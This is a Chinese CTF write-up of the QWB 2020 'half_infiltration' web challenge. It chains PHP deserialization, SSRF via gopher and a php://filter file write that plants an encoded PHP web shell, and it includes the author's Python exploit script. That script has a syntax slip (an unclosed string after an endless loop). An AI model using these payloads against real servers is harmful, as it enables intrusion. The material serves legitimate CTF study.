 ```yaml
---
title: qwb2020web复现
author: ch3n9w
date: 2020-08-27 20:48:12
categories:
  - CTF
typora-root-url: ../
cover:
  image: image-20211114141959846.png
---
```


## half_infiltration

开局的页面如下

```php
<?php
highlight_file(__FILE__);

$flag=file_get_contents('ssrf.php');

class Pass
{


    function read()
    {
        ob_start();
        global $result;
        print $result;

    }
}

class User
{
    public $age,$sex,$num;

    function __destruct()
    {
        $student = $this->age;
        $boy = $this->sex;
        $a = $this->num;
    $student->$boy();
    if(!(is_string($a)) ||!(is_string($boy)) || !(is_object($student)))
    {
        ob_end_clean();
        exit();
    }
    global $$a;
    $result=$GLOBALS['flag'];
        ob_end_clean();
    }
}

if (isset($_GET['x'])) {
    unserialize($_GET['x'])->get_it();
} 

```

思路是进行两次反序列化, 第一次将$_GLOBALS['flag']赋值给全局变量$result, 第二次反序列化是让程序在``ob_end_clean()``执行之前报错退出. ``ob_start``会打开输出缓冲

> 启用输出缓冲会导致PHP开始存储你输出的脚本而不是立即将它们发送到客户端。当脚本结束或者你调用了ob_flush()函数，PHP才会将内容发送到客户端。

``ob_end_clean``会将输出缓冲的内容进行一个清空, 那么如果要看到$result的内容的话, 我们就需要在``ob_end_clean``之前退出程序. 通过将$a赋值为this可以做到让程序报错退出.

```php
<?php

class Pass{
    function read(){
	// ob_start();
	global $result;
	print $result;
    }
}

class User{
    public $age, $sex, $num;
    function __construct($a, $b, $c)
    {
	$this->age = $a;
	$this->sex = $b;
	$this->num = $c;
    }
}
echo urlencode(serialize([
    new User(new Pass(), "read", "result"),
    new User(new Pass(), "read", "this")
    ]));

?>

```

然后我们可以看到ssrf.php的内容

```php
<?php 
//经过扫描确认35000以下端口以及50000以上端口不存在任何内网服务,请继续渗透内网
    $url = $_GET['we_have_done_ssrf_here_could_you_help_to_continue_it'] ?? false; 
	if(preg_match("/flag|var|apache|conf|proc|log/i" ,$url)){
		die("");
	}

	if($url)
    { 

            $ch = curl_init(); 
            curl_setopt($ch, CURLOPT_URL, $url); 
            curl_setopt($ch, CURLOPT_HEADER, 1);
            curl_exec($ch);
            curl_close($ch); 

     } 

?>
```

扫描发现

http://39.98.131.124/ssrf.php?we_have_done_ssrf_here_could_you_help_to_continue_it=http://127.0.0.1:40000/

有东西

```html
HTTP/1.1 200 OK
Date: Thu, 27 Aug 2020 13:04:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: PHPSESSID=60uap1c9tcik5f1ivmqqp933g2; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 1121
Content-Type: text/html; charset=UTF-8



<!DOCTYPE html>
<html>

<head>
	<title>Message Board</title>
	<link rel="stylesheet" href="css/bootstrap.min.css" />
</head>

<body>
	<div class="container" style="text-align:center;vertical-align:middle;">

		<div class="row" style="text-align:center;vertical-align:middle;">
			<h1>Message Board </h1>
		</div>
		<div class="row">
			<br><br>
			<p class="lead">
				Since there is only one administrator, a person can only submit one opinion at a time.
				Each time a new opinion is submitted, all old comments will be deleted
				<br><br>
                </p>
		</div>

		<br>

		<div class="row" style="text-align:center;vertical-align:middle;">

			<form method="POST" class="form-inline">
				<div class="form-group">
					<input class='form-control' type="text" name="file">
	</div>
					<div class='panel-body'>
						<textarea class='form-control' name='content' rows='6'></textarea>
						<br>
						<br>
						<div class="form-group">
							<button type="submit" class='btn btn-default col-md-2 form-control' value="Submit">Submit</button>
						</div>




			</form>

		</div>
```

同时

http://39.98.131.124/ssrf.php?we_have_done_ssrf_here_could_you_help_to_continue_it=http://127.0.0.1:40000/uploads/

可以访问, 那么这里应该是上传东西到目录下面了.这里使用gopher协议来发送post上传文件, 这里依然会有一个过滤, 包括等号在内的几种符号和字母组合都被过滤了,使用二次编码协议来绕过. 

```php
import requests
from urllib.parse import urlencode, quote_plus, quote

url0 = "http://39.98.131.124/ssrf.php?we_have_done_ssrf_here_could_you_help_to_continue_it=gopher://127.0.0.1:40000/_"

upload_data = {
    'file':'php://filter/convert.base64-decode|convert.base64-decode/resource=shell.php',
    'content':'UEQ4OVlHTmhkQ0F2Wm14aFoyQTc' # 似乎可以正常解密的base64都无法写入文件中
}
upload_data = urlencode(upload_data, quote_via=quote_plus)
print(upload_data)

gopher_content = '''POST / HTTP/1.1
Host: 127.0.0.1:40000
Cookie: PHPSESSID=hhhhhhhhhhhhhhhhhhhhhhhaaa;
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: {length}

{data}'''.format(length = len(upload_data), data=upload_data).replace('\n', '\r\n')


#  ssrf need double url encode
url = url0 + quote(quote(gopher_content))

header = {"Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}

while True:
    requests.get(url, headers=header)

validate = "http://39.98.131.124/ssrf.php?we_have_done_ssrf_here_could_you_help_to_continue_it=http://127.0.0.1:40000/uploads/hhhhhhhhhhhhhhhhhhhhhhhaaa/shell.php

res = requests.get(validate)
print(res.content)

```

![image-20211114142011268](image-20211114142011268.png)
